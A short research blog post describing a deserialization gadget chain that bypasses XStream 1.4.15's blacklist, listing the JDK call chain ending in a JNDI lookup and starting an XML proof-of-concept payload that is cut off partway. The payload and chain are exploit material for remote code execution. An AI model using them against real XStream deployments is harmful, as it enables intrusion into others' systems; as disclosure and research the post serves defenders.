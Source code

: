```yaml
---
title: XStream 1.4.15 Blacklist Bypass
tags:
  - cve
categories:
  - notes
date: 2021-1-3 22:43:16
typora-root-url: ../../../source
---
```


# #1 Gadget Overview

Recently, I found a new deserialzation gadget which can bypass the latest version of XStream. This gadget use the JDK to construct the gadget chain. I had tested the gadget chain to RCE (remote code execute) with the version of JDK8 (8u162). I think other version of JDK also could trigger this vulnerablity to the RCE.



Let's look at this gadget, and the detail is in part #3. 

```
TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

# #2 Poc

```xml
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class="javax.swing.MultiUIDefaults" serialization="custom">
      <unserializable-parents/>
      <hashtable>
        <default>
          <loadFactor>0.75</loadFactor>
          <threshold>525</threshold>
        </default>
        <int>700</int>
        <int>0</int>
      </hashtable>
      <javax.swing.UIDefaults>
        <default>
          <defaultLocale>zh_CN</defaultLocale>
          <resourceCache/>
        </default>
      </javax.swing.UIDefaults>
      <javax.swing.MultiUIDefaults>
        <default>
          <tables>
            <javax.swing.UIDefaults serialization="custom">
              <unserializable-parents/>
              <hashtable>
                <default>
```